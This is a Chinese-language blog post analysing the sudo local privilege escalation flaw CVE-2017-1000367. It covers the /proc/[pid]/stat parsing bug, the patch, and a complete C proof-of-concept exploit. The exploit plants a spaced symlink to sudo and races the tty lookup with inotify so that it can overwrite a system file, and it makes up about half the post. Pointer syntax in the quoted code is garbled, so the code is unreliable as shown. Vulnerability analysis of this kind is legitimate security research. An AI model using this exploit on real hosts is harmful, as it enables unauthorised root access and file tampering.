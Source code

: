```yaml
---
layout: post
title: sudo本地提权 CVE-2017-1000367 漏洞分析
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;该漏洞发生在/src/ttyname.c的`get_process_ttyname()`函数，sudo在获取tty设备号时没有正确解析/proc/[pid]/stat的内容。首先，/proc/[pid]的stat包含了所有的CPU活跃信息，有关触发此漏洞的两个stat参数分别为：
```
第2个：comm应用程序或命令的名字
第7个：tty_nr也就是tty设备号
```

这些参数是使用空格进行分割的，再来看看get_process_ttyname()函数是怎么获取`tty_nr`的：

```
len = getline(&line, &linesize, fp);
fclose(fp);
if (len != -1) {
    / Field 7 is the tty dev (0 if no tty) /
    char cp = line;
    char ep = line;
    const char errstr;
    int field = 0;
    while (++ep != '\0') {
        if (ep == ' ') {
            ep = '\0';
            if (++field == 7) {
                dev_t tdev = strtonum(cp, INT_MIN, INT_MAX, &errstr);
                if (errstr) {
                    sudo_debug_printf(SUDO_DEBUG_ERROR|SUDO_DEBUG_LINENO,
                        "%s: tty device %s: %s", path, cp, errstr);
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;程序在获取tty_nr时也就是根据多少空格个来判断当前是哪个参数，那么上面提到的第2个参数comm，这个参数是以括号独立起来的，并且程序或命令的名字当然允许包含空格。那么就可以通过控制comm参数的空格导致tty_nr的值同样被控制，使得本地攻击者来覆盖文件系统上的任何文件，从而绕过预期权限或获取root shell。

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;再来看看补丁，补丁第一处是将get_process_ttyname()函数在获取tty_nr时从’)’后开始获取，这样避免了comm包含空格的特性：

```
if (nread == 0 && memchr(buf, '\0', cp - buf) == NULL) {
    /
      Field 7 is the tty dev (0 if no tty).
      Since the process name at field 2 "(comm)" may include
      whitespace (including newlines), start at the last ')' found.
     /
    cp = '\0';
    cp = strrchr(buf, ')');
    if (cp != NULL) {
    char ep = cp;
    const char errstr;
    int field = 1;

    while (++ep != '\0') {
        if (ep == ' ') {
        ep = '\0';
        if (++field == 7) {
            dev_t tdev = strtonum(cp, INT_MIN, INT_MAX, &errstr);
            if (errstr) {
            sudo_debug_printf(SUDO_DEBUG_ERROR|SUDO_DEBUG_LINENO,
                "%s: tty device %s: %s", path, cp, errstr);
            }
            if (tdev > 0) {
            errno = serrno;
            ret = sudo_ttyname_dev(tdev, name, namelen);
            goto done;
            }
            break;
        }
        cp = ep + 1;
        }
    }
    }
}
```

第二处是添加了搜索设备号对应的设备名的两个地址：

```
 static char ignore_devs[] = {
     "/dev/fd/",
+    "/dev/mqueue/",
+    "/dev/shm/",
     "/dev/stdin",
     "/dev/stdout",
     "/dev/stderr",
```

POC:

```
#define _GNU_SOURCE
#include <errno.h>
#include <linux/sched.h>
#include <pty.h>
#include <sched.h>
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/inotify.h>
#include <sys/resource.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/wait.h>

#define EVENT_SIZE  ( sizeof (struct inotify_event) )
#define EVENT_BUF_LEN     ( 1024  ( EVENT_SIZE + 16 ) )


int main( )
{

    int length, i = 0;
  int fd;
  int wd;
  char buffer[EVENT_BUF_LEN];

    int master, slave;
    char pts_path[256];

    cpu_set_t  mask;
    struct sched_param params;
    params.sched_priority = 0;
    CPU_ZERO(&mask);
    CPU_SET(0, &mask);

    mkdir("/dev/shm/_tmp", 0755);
    symlink("/dev/pts/57", "/dev/shm/_tmp/_tty");
    symlink("/usr/bin/sudo", "/dev/shm/_tmp/     34873 ");

    fd = inotify_init();
    wd = inotify_add_watch( fd, "/dev/shm/_tmp", IN_OPEN | IN_CLOSE_NOWRITE );

     pid_t pid = fork();

    if(pid == 0) {
        sched_setaffinity(pid, sizeof(mask), &mask);
        sched_setscheduler(pid, SCHED_IDLE, &params);
        setpriority(PRIO_PROCESS, pid, 19);

        sleep(1);
        execlp("/dev/shm/_tmp/     34873 ", "sudo", "-r", "unconfined_r", "/usr/bin/sum", "—\nHELLO\nWORLD\n", NULL);
    }else{
        setpriority(PRIO_PROCESS, 0, -20);
        int state = 0;
        while(1) {
            length = read( fd, buffer, EVENT_BUF_LEN );
            kill(pid, SIGSTOP);

            i=0;
            while ( i < length ) {
                struct inotify_event event = ( struct inotify_event * ) &buffer[ i ];

                if ( event->mask & IN_OPEN ) {
                    //kill(pid, SIGSTOP);

                    while(strcmp(pts_path,"/dev/pts/57")){
                        openpty(&master, &slave, &pts_path[0], NULL, NULL);
                    };
                    //kill(pid, SIGCONT);
                    break;

                }else if ( event->mask & IN_CLOSE_NOWRITE ) {
                    //kill(pid, SIGSTOP);

                    unlink("/dev/shm/_tmp/_tty");
                    symlink("/etc/motd", "/dev/shm/_tmp/_tty");
                    //kill(pid, SIGCONT);

                    state = 1;
                    break;
                }

                i += EVENT_SIZE + event->len;

            }
            kill(pid, SIGCONT);
            if(state == 1) break;
        }

        waitpid(pid, NULL, 0);
        inotify_rm_watch( fd, wd );
        close( fd );
        close(wd);

        unlink("/dev/shm/_tmp/_tty");
        unlink("/dev/shm/_tmp/     34873 ");
        rmdir("/dev/shm/_tmp");
        close(master);
        close(slave);
    }

}
```

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/4refdergth.png">

